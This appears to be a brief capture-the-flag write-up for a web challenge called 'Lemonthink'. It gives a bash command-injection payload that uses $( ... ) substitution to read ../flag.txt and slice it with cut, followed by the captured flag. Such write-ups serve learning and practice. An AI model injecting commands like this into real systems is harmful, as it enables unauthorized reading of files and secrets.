 # Web Challs

# Lemonthink
> Bash Injection LOL
```$( cat ../flag.txt | cut -d '{' -f 2 | cut -cS-E)```
where S and E are start and end indexes

Flag: `rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}`